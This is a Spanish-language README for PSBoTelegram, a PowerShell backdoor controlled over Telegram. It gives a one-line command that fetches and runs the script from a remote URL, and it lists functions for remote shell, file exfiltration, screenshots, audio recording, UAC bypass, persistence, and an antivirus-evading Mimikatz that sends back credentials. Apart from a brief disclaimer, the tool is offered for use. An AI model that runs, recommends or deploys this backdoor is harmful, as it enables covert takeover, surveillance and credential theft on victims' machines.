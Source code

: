 
# PsBoTelegram
POC: Backdoor using Telegram and Powershell. Por favor, usad sólo vuestros equipos para las pruebas. No me hago responsable de un mal uso del software. 

Podeis probar el script abriendo una consola de powershell y ejecutando este comando:

**IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;

        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                            /____/

                                                     v0.7 by CyberVaca @ HackPlayers

PSBotTelegram es un script escrito en Powershell, que nos crea una backdoor que se conecta a un BOT de Telegram. El BOT se controlará por mensajes de Telegram. Al ejecutar el script nos va a pedir tres datos necesarios para crear el shellcode. 

# Instalación en Linux

    git clone https://github.com/hackplayers/psbotelegram.git
    cd psbotelegram
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell ./PSBoTelegram.ps1

# Instalación en Windows

    Powershell.exe ./PSBotelegram.ps1
    
Los datos que nos pide son los siguientes:  

# Parametros
![Parametros](./images/parametros.png)  
 
**[+] Introduzca el Token del Bot de Telegram:** "Aquí deberemos poner el Token del bot que hayamos creado."  
**[+] Introduzca su Chat ID:** "Aquí deberemos poner nuestro ID de Telegram."  
**[+] Introduzca el delay para la conexión:** "En este campo seteamos el delay(retardo) entre en pc con el backdoor y nuestro chat de telegram"   

# Salidas de archivo:
![Salidas](./images/OutFiles.png)  

Una vez introducido estos datos, nos creará un shellcode en BASE64 en un tipo de archivo seleccionado para ejecutarlo en el equipo a auditar.  

# Funciones del backdoor.

[1]&nbsp;&nbsp;&nbsp;**/Help**&nbsp;&nbsp; (Nos muestra la ayuda)  
[2]&nbsp;&nbsp;&nbsp;**/Info**&nbsp;&nbsp; (Devuelve información sobre el equipo)   
[3]&nbsp;&nbsp;&nbsp;**/Shell**&nbsp;&nbsp; (/Shell + CmdLet a ejecutar )  
[4]&nbsp;&nbsp;&nbsp;**/Whoami**&nbsp;&nbsp; (Devuelve el usuario que ejecutó el codigo)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic**&nbsp;&nbsp; (Nos da IP publica, Pais y Ciudad del Target)  
[6]&nbsp;&nbsp;&nbsp;**/Kill**&nbsp;&nbsp; (Mata el backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport**&nbsp;&nbsp; (Importa el script de powershell pasandole una url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)**&nbsp;&nbsp; (Función de powercat https://github.com/besimorhino/powercat
)  
[9]&nbsp;&nbsp;&nbsp;**/Download**&nbsp;&nbsp; (Download mas ruta nos descarga el archivo)  
[10]&nbsp;&nbsp;**/Screenshot**&nbsp;&nbsp; (Realiza screenshot y nos lo envia)  
[11]&nbsp;&nbsp;**/Audio**&nbsp;&nbsp; (/Audio X, Grabaría X segundos de audio y nos lo envia)  
[12]&nbsp;&nbsp;**/BypassUAC**&nbsp;&nbsp; (Ejecuta el Bot con privilegios administrativos)  
[13]&nbsp;&nbsp;**/Persistence**&nbsp;&nbsp; (/Persistence ON/OFF)  
[14]&nbsp;&nbsp;**/MimiGatoz**&nbsp;&nbsp; (Ejecuta Mimikatz modificado para el bypass AV y nos envia los datos)


